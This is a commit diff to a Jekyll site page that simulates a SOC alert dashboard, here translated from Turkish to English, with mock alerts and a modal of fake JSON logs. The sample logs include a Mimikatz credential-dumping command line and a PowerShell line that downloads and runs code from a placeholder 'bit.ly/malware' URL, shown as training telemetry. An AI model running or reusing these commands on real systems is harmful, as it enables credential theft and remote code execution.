

Before and after one commit to cybergungor/cybergungor.github.io, a Jekyll site: the page built from alerts.md, in a window 1280 px wide and 1400 px high. Shown: the top 1379 px of the window at 83% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update alerts.md

```diff
--- a/alerts.md
+++ b/alerts.md
@@ -18,60 +18,75 @@
                 <div class="number">5</div>
             </div>
             <div class="stat-card info-glow">
-                <h3>OPEN</h3>
+                <h3>OPEN CASES</h3>
                 <div class="number">7</div>
+            </div>
+            <div class="stat-card success-glow">
+                <h3>MTTR</h3>
+                <div class="number">8m</div>
             </div>
         </div>
 
         <div class="alerts-table-wrapper">
             <div class="table-header">
-                <span class="blink">●</span> LIVE THREAT FEED // SPLUNK_ES_DEMO
+                <div class="header-left">
+                    <span class="blink">●</span> LIVE FEED // SENTINEL_GUARD_SIEM
+                </div>
+                <div class="header-right">
+                    Queue: <span style="color: #fff">Tier 1 Analysis</span>
+                </div>
             </div>
             <table class="soar-table">
                 <thead>
                     <tr>
                         <th>ID</th>
+                        <th>TIMESTAMP</th>
                         <th>RULE NAME</th>
+                        <th>ASSET</th>
                         <th>SEVERITY</th>
-                        <th>STATUS</th>
                         <th>ACTION</th>
                     </tr>
                 </thead>
                 <tbody>
-                    <tr id="alert-101">
-                        <td class="mono">#101</td>
-                        <td>Mimikatz.exe Exec</td>
+                    <tr>
+                        <td class="mono">#SOC-101</td>
+                        <td class="mono">10:42:15 UTC</td>
+                        <td>Credential Dumping (Mimikatz)</td>
+                        <td class="mono">FINANCE-SRV-01</td>
                         <td><span class="badge critical">CRITICAL</span></td>
-                        <td><span class="status new">NEW</span></td>
-                        <td><button class="btn-investigate" onclick="investigate('alert-101')">ANALYZE</button></td>
+                        <td><button class="btn-investigate" onclick="openModal('101')">VIEW LOGS</button></td>
                     </tr>
-                    <tr id="alert-102">
-                        <td class="mono">#102</td>
-                        <td>Brute Force (RDP)</td>
+                    <tr>
+                        <td class="mono">#SOC-102</td>
+                        <td class="mono">10:38:00 UTC</td>
+                        <td>Brute Force Detection (RDP)</td>
+                        <td class="mono">HR-WORKSTATION-04</td>
                         <td><span class="badge high">HIGH</span></td>
-                        <td><span class="status new">NEW</span></td>
-                        <td><button class="btn-investigate" onclick="investigate('alert-102')">ANALYZE</button></td>
+                        <td><button class="btn-investigate" onclick="openModal('102')">VIEW LOGS</button></td>
                     </tr>
-                    <tr id="alert-103">
-                        <td class="mono">#103</td>
-                        <td>Suspicious PowerShell</td>
+                    <tr>
+                        <td class="mono">#SOC-103</td>
+                        <td class="mono">09:15:22 UTC</td>
+                        <td>Suspicious PowerShell Execution</td>
+                        <td class="mono">DEV-LAPTOP-02</td>
                         <td><span class="badge medium">MEDIUM</span></td>
-                        <td><span class="status progress">IN PROG</span></td>
-                        <td><button class="btn-investigate" disabled>ASSIGNED</button></td>
+                        <td><button class="btn-investigate" onclick="openModal('103')">VIEW LOGS</button></td>
                     </tr>
-                     <tr id="alert-104">
-                        <td class="mono">#104</td>
-                        <td>User Added to Admin</td>
+                     <tr>
+                        <td class="mono">#SOC-104</td>
+                        <td class="mono">08:50:11 UTC</td>
+                        <td>User Added to Domain Admins</td>
+                        <td class="mono">DC-01</td>
                         <td><span class="badge critical">CRITICAL</span></td>
-                        <td><span class="status closed">CLOSED</span></td>
-                        <td><button class="btn-investigate" disabled>RESOLVED</button></td>
+                        <td><button class="btn-investigate" disabled style="opacity:0.5">RESOLVED</button></td>
                     </tr>
-                     <tr id="alert-105">
-                        <td class="mono">#105</td>
-                        <td>Internal Port Scan</td>
+                     <tr>
+                        <td class="mono">#SOC-105</td>
+                        <td class="mono">08:30:05 UTC</td>
+                        <td>Internal Port Scan (Recon)</td>
+                        <td class="mono">GUEST-WIFI-CLIENT</td>
                         <td><span class="badge low">LOW</span></td>
-                        <td><span class="status closed">CLOSED</span></td>
-                        <td><button class="btn-investigate" disabled>FALSE POS</button></td>
+                        <td><button class="btn-investigate" disabled style="opacity:0.5">FALSE POS</button></td>
                     </tr>
                 </tbody>
             </table>
@@ -82,66 +97,145 @@
         <div class="info-box">
             <div class="info-header">
                 <svg width="20" height="20" viewBox="0 0 24 24" fill="none" stroke="currentColor" stroke-width="2"><circle cx="12" cy="12" r="10"></circle><line x1="12" y1="16" x2="12" y2="12"></line><line x1="12" y1="8" x2="12.01" y2="8"></line></svg>
-                SİMÜLASYON MODU
+                SIMULATION MODE
             </div>
             <p>
-                Bu ekran, gerçek bir <strong>SOAR (Güvenlik Orkestrasyonu ve Müdahalesi)</strong> ürününün arayüzünü simüle etmek amacıyla, tamamen <strong>eğitim ve bilgilendirme</strong> amaçlı tasarlanmıştır.
+                This interface simulates a real-world **SOAR (Security Orchestration, Automation, and Response)** dashboard used by Tier-1 SOC Analysts.
             </p>
             <hr>
             <p>
-                Burada gördüğünüz alarmlar ve veriler örnektir. Amacım, ziyaretçilere bir SOC analistinin günlük hayatta kullandığı operasyonel panellerin (Splunk, QRadar, Sentinel vb.) nasıl göründüğünü ve işlediğini göstermektir.
+                <strong>How to use:</strong> Click on the <span style="color:var(--accent)">VIEW LOGS</span> button to inspect the raw telemetry and event details generated by our mock SIEM engine.
             </p>
             <div class="system-meta">
-                <span>SYSTEM:</span> DEMO_ENV<br>
-                <span>VERSION:</span> v2.4.0<br>
-                <span>ACCESS:</span> READ_ONLY
+                <span>ENGINE:</span> SENTINEL_GUARD v4.2<br>
+                <span>LATENCY:</span> 24ms<br>
+                <span>ROLE:</span> ANALYST_VIEW
             </div>
         </div>
     </div>
 
 </div>
 
+<div id="logModal" class="modal">
+    <div class="modal-content">
+        <div class="modal-header">
+            <h2 id="modalTitle">CASE DETAILS</h2>
+            <span class="close" onclick="closeModal()">&times;</span>
+        </div>
+        <div class="modal-body">
+            <div class="log-metadata">
+                <div><strong>Source:</strong> <span id="logSource"></span></div>
+                <div><strong>Destination:</strong> <span id="logDest"></span></div>
+                <div><strong>Event ID:</strong> <span id="logEventId"></span></div>
+            </div>
+            <div class="code-block-wrapper">
+                <div class="code-label">RAW LOG PREVIEW (JSON)</div>
+                <pre id="logContent" class="raw-log"></pre>
+            </div>
+            <div class="modal-actions">
+                <button class="btn-action primary" onclick="simAction('Escalate')">ESCALATE TO TIER 2</button>
+                <button class="btn-action secondary" onclick="simAction('Close')">CLOSE AS FALSE POSITIVE</button>
+            </div>
+        </div>
+    </div>
+</div>
+
 <script>
-    function investigate(rowId) {
-        let row = document.getElementById(rowId);
-        let statusSpan = row.querySelector('.status');
-        let btn = row.querySelector('.btn-investigate');
+    // --- MOCK DATA (Fake Logs) ---
+    const alertData = {
+        '101': {
+            title: "CASE #101: Credential Dumping",
+            source: "192.168.1.105 (FINANCE-SRV-01)",
+            dest: "Local System (LSASS.exe)",
+            eventId: "4688",
+            log: JSON.stringify({
+                "timestamp": "2025-12-19T10:42:15.000Z",
+                "event_code": 10,
+                "process_name": "C:\\Windows\\Temp\\mimikatz.exe",
+                "command_line": "\"mimikatz.exe\" \"privilege::debug\" \"sekurlsa::logonpasswords\" \"exit\"",
+                "parent_process": "powershell.exe",
+                "user": "NT AUTHORITY\\SYSTEM",
+                "hash_sha256": "a24b...f92a (Malicious)",
+                "alert_score": 100
+            }, null, 4)
+        },
+        '102': {
+            title: "CASE #102: RDP Brute Force",
+            source: "45.12.88.99 (External)",
+            dest: "192.168.1.20 (HR-WORKSTATION)",
+            eventId: "4625",
+            log: JSON.stringify({
+                "timestamp": "2025-12-19T10:38:00.000Z",
+                "action": "failure",
+                "failure_reason": "Unknown user name or bad password",
+                "src_ip": "45.12.88.99",
+                "dst_port": 3389,
+                "logon_type": 10,
+                "attempt_count": 45,
+                "target_account": "Administrator"
+            }, null, 4)
+        },
+        '103': {
+            title: "CASE #103: Suspicious PowerShell",
+            source: "192.168.1.55 (DEV-LAPTOP)",
+            dest: "External (Pastebin)",
+            eventId: "4104",
+            log: JSON.stringify({
+                "timestamp": "2025-12-19T09:15:22.000Z",
+                "script_block": "IEX(New-Object Net.WebClient).DownloadString('http://bit.ly/malware')",
+                "host": "DEV-LAPTOP-02",
+                "execution_policy": "Bypass",
+                "user": "corp\\jdoe",
+                "threat_level": "Medium"
+            }, null, 4)
+        }
+    };
 
-        statusSpan.className = 'status progress';
-        statusSpan.innerText = 'IN PROGRESS';
+    // --- MODAL FUNCTIONS ---
+    function openModal(id) {
+        const data = alertData[id];
+        if (!data) return;
 
-        btn.innerText = 'LOADING...';
-        btn.disabled = true;
+        document.getElementById('modalTitle').innerText = data.title;
+        document.getElementById('logSource').innerText = data.source;
+        document.getElementById('logDest').innerText = data.dest;
+        document.getElementById('logEventId').innerText = data.eventId;
+        document.getElementById('logContent').innerText = data.log;
 
-        row.style.backgroundColor = "rgba(88, 166, 255, 0.1)";
+        document.getElementById('logModal').style.display = "flex";
+    }
 
-        setTimeout(() => {
-            alert("Vaka #" + rowId + " incelemeye alındı.\nOperatör: Emirhan G.");
-            btn.innerText = 'ASSIGNED';
-        }, 500);
+    function closeModal() {
+        document.getElementById('logModal').style.display = "none";
+    }
+
+    function simAction(action) {
+        alert("Simulation Action: " + action + "\nLog recorded in audit trail.");
+        closeModal();
+    }
+
+    // Close modal if clicked outside
+    window.onclick = function(event) {
+        let modal = document.getElementById('logModal');
+        if (event.target == modal) {
+            closeModal();
+        }
     }
 </script>
 
 <style>
-    /* ===== SAYFA DÜZENİ (GRID) ===== */
+    /* ===== LAYOUT & DASHBOARD ===== */
     .soar-layout {
         display: flex;
         flex-wrap: wrap;
         gap: 2rem;
         align-items: flex-start;
+        margin-bottom: 3rem;
     }
+    .main-panel { flex: 3; min-width: 300px; }
+    .side-panel { flex: 1.2; min-width: 250px; }
 
-    .main-panel {
-        flex: 3; /* Sol taraf 3 birim genişlikte */
-        min-width: 300px;
-    }
-
-    .side-panel {
-        flex: 1.2; /* Sağ taraf 1.2 birim genişlikte */
-        min-width: 250px;
-    }
-
-    /* ===== INFO BOX (SAĞ PANEL) TASARIMI ===== */
+    /* Info Sidebar */
     .info-box {
         background: rgba(22, 27, 34, 0.8);
         border: 1px solid #30363d;
@@ -150,132 +244,116 @@
         border-radius: 6px;
         font-size: 0.9rem;
         color: var(--text-muted);
-        position: sticky; /* Aşağı kaydırınca sabit kalsın */
-        top: 100px;
+        position: sticky; top: 100px;
+    }
+    .info-header {
+        display: flex; align-items: center; gap: 10px; color: #e6edf3;
+        font-weight: bold; font-family: 'JetBrains Mono', monospace;
+        margin-bottom: 1rem; padding-bottom: 0.5rem; border-bottom: 1px dashed #30363d;
+    }
+    .info-box hr { border: 0; border-top: 1px solid #30363d; margin: 1rem 0; }
+    .system-meta {
+        font-family: 'JetBrains Mono', monospace; font-size: 0.75rem;
+        color: #58a6ff; background: rgba(88, 166, 255, 0.1); padding: 10px; border-radius: 4px;
     }
 
-    .info-header {
-        display: flex;
-        align-items: center;
-        gap: 10px;
-        color: #e6edf3;
-        font-weight: bold;
-        font-family: 'JetBrains Mono', monospace;
-        margin-bottom: 1rem;
-        padding-bottom: 0.5rem;
-        border-bottom: 1px dashed #30363d;
-    }
-
-    .info-box p { margin-bottom: 1rem; line-height: 1.6; }
-    .info-box hr { border: 0; border-top: 1px solid #30363d; margin: 1rem 0; }
-
-    .system-meta {
-        font-family: 'JetBrains Mono', monospace;
-        font-size: 0.75rem;
-        color: #58a6ff;
-        background: rgba(88, 166, 255, 0.1);
-        padding: 10px;
-        border-radius: 4px;
-    }
-
-    /* ===== DASHBOARD TASARIMI ===== */
-    .stats-grid {
-        display: grid;
-        grid-template-columns: repeat(auto-fit, minmax(140px, 1fr));
-        gap: 1rem;
-        margin-bottom: 2rem;
-    }
-
-    .stat-card {
-        background: #161b22;
-        border: 1px solid #30363d;
-        padding: 1rem;
-        border-radius: 6px;
-        text-align: center;
-    }
-
-    .stat-card h3 { margin: 0; font-size: 0.8rem; color: #8b949e; letter-spacing: 1px; }
+    /* Stats Grid */
+    .stats-grid { display: grid; grid-template-columns: repeat(auto-fit, minmax(140px, 1fr)); gap: 1rem; margin-bottom: 2rem; }
+    .stat-card { background: #161b22; border: 1px solid #30363d; padding: 1rem; border-radius: 6px; text-align: center; }
+    .stat-card h3 { margin: 0; font-size: 0.75rem; color: #8b949e; letter-spacing: 1px; }
     .stat-card .number { font-size: 2rem; font-weight: bold; color: #e6edf3; font-family: 'JetBrains Mono', monospace; }
-
     .danger-glow { border-bottom: 3px solid #ff5f56; }
     .warning-glow { border-bottom: 3px solid #d29922; }
     .info-glow { border-bottom: 3px solid #58a6ff; }
+    .success-glow { border-bottom: 3px solid #3fb950; }
 
-    /* Tablo Alanı */
-    .alerts-table-wrapper {
-        background: #161b22;
-        border: 1px solid #30363d;
-        border-radius: 8px;
-        overflow: hidden;
-    }
-
+    /* Alerts Table */
+    .alerts-table-wrapper { background: #161b22; border: 1px solid #30363d; border-radius: 8px; overflow: hidden; }
     .table-header {
-        background: #0d1117;
-        padding: 10px 15px;
-        font-family: 'JetBrains Mono', monospace;
-        font-size: 0.75rem;
-        color: #3fb950;
-        border-bottom: 1px solid #30363d;
+        background: #0d1117; padding: 12px 15px; font-family: 'JetBrains Mono', monospace;
+        font-size: 0.75rem; color: #3fb950; border-bottom: 1px solid #30363d;
+        display: flex; justify-content: space-between;
     }
     .blink { animation: blinker 1.5s linear infinite; color: #ff5f56; margin-right: 5px; }
     @keyframes blinker { 50% { opacity: 0; } }
 
-    .soar-table {
-        width: 100%;
-        border-collapse: collapse;
-        font-size: 0.85rem;
-    }
-
-    .soar-table th {
-        background: #161b22;
-        color: #8b949e;
-        text-align: left;
-        padding: 12px;
-        border-bottom: 1px solid #30363d;
-        font-size: 0.75rem;
-    }
-
-    .soar-table td {
-        padding: 12px;
-        border-bottom: 1px solid #30363d;
-        color: #c9d1d9;
-    }
-
-    .soar-table tr:hover { background-color: rgba(255,255,255,0.02); }
+    .soar-table { width: 100%; border-collapse: collapse; font-size: 0.85rem; }
+    .soar-table th { background: #161b22; color: #8b949e; text-align: left; padding: 12px; border-bottom: 1px solid #30363d; font-size: 0.75rem; }
+    .soar-table td { padding: 12px; border-bottom: 1px solid #30363d; color: #c9d1d9; }
+    .soar-table tr:hover { background-color: rgba(255,255,255,0.03); }
     .mono { font-family: 'JetBrains Mono', monospace; }
 
-    /* Rozetler ve Butonlar */
+    /* Badges & Buttons */
     .badge { padding: 3px 6px; border-radius: 4px; font-weight: bold; font-size: 0.65rem; }
     .critical { background: rgba(255, 95, 86, 0.15); color: #ff5f56; border: 1px solid #ff5f56; }
     .high { background: rgba(210, 153, 34, 0.15); color: #d29922; border: 1px solid #d29922; }
     .medium { background: rgba(88, 166, 255, 0.15); color: #58a6ff; border: 1px solid #58a6ff; }
     .low { background: rgba(139, 148, 158, 0.15); color: #8b949e; border: 1px solid #8b949e; }
 
-    .status { font-weight: bold; font-size: 0.7rem; }
-    .new { color: #58a6ff; }
-    .progress { color: #d29922; }
-    .closed { color: #3fb950; }
-
     .btn-investigate {
-        background: transparent;
-        border: 1px solid #30363d;
-        color: var(--accent);
-        padding: 5px 10px;
-        border-radius: 4px;
-        cursor: pointer;
-        font-family: 'JetBrains Mono', monospace;
-        font-size: 0.7rem;
+        background: transparent; border: 1px solid #30363d; color: var(--accent);
+        padding: 5px 12px; border-radius: 4px; cursor: pointer;
+        font-family: 'JetBrains Mono', monospace; font-size: 0.7rem; font-weight: bold;
         transition: all 0.2s;
     }
-    .btn-investigate:hover:not(:disabled) {
-        background: var(--accent);
-        color: #0d1117;
+    .btn-investigate:hover:not(:disabled) { background: var(--accent); color: #0d1117; }
+
+    /* ===== MODAL (POPUP) STYLES ===== */
+    .modal {
+        display: none; /* Hidden by default */
+        position: fixed; z-index: 2000; left: 0; top: 0;
+        width: 100%; height: 100%;
+        background-color: rgba(0,0,0,0.8); /* Black w/ opacity */
+        backdrop-filter: blur(5px);
+        align-items: center; justify-content: center;
     }
-    .btn-investigate:disabled { color: #484f58; border-color: transparent; }
 
-    /* Mobil Uyumluluk */
+    .modal-content {
+        background-color: #161b22; border: 1px solid #30363d;
+        width: 90%; max-width: 800px; border-radius: 8px;
+        box-shadow: 0 0 30px rgba(0,0,0,0.7);
+        animation: slideDown 0.3s ease-out;
+    }
+
+    .modal-header {
+        padding: 1rem 1.5rem; border-bottom: 1px solid #30363d;
+        display: flex; justify-content: space-between; align-items: center;
+        background: #0d1117; border-radius: 8px 8px 0 0;
+    }
+    .modal-header h2 { margin: 0; font-size: 1.2rem; color: var(--accent); border: none; }
+    .close { color: #8b949e; font-size: 28px; font-weight: bold; cursor: pointer; }
+    .close:hover { color: #fff; }
+
+    .modal-body { padding: 1.5rem; }
+
+    .log-metadata {
+        display: grid; grid-template-columns: repeat(3, 1fr); gap: 10px; margin-bottom: 1.5rem;
+        font-family: 'Inter', sans-serif; font-size: 0.9rem; color: #c9d1d9;
+    }
+
+    .code-block-wrapper { margin-bottom: 2rem; }
+    .code-label { font-size: 0.75rem; color: #8b949e; margin-bottom: 5px; font-family: 'JetBrains Mono', monospace; }
+    .raw-log {
+        background: #0d1117; padding: 15px; border-radius: 6px; border: 1px solid #30363d;
+        color: #3fb950; font-size: 0.85rem; overflow-x: auto;
+    }
+
+    .modal-actions { display: flex; gap: 1rem; justify-content: flex-end; }
+    .btn-action {
+        padding: 10px 20px; border-radius: 4px; font-weight: bold; cursor: pointer; border: none; font-family: 'JetBrains Mono', monospace;
+    }
+    .primary { background: #ff5f56; color: #fff; }
+    .secondary { background: #30363d; color: #c9d1d9; border: 1px solid #8b949e; }
+    .primary:hover { background: #ff4436; }
+    .secondary:hover { border-color: #fff; }
+
+    @keyframes slideDown {
+        from { transform: translateY(-50px); opacity: 0; }
+        to { transform: translateY(0); opacity: 1; }
+    }
+
     @media (max-width: 768px) {
-        .soar-layout { flex-direction: column-reverse; } /* Telefondaysa Bilgi en altta dursun veya en üstte (normal column) */
-        .side-panel { width: 100%; }
+        .soar-layout { flex-direction: column-reverse; }
+        .log-metadata { grid-template-columns: 1fr; }
     }
 </style>
```
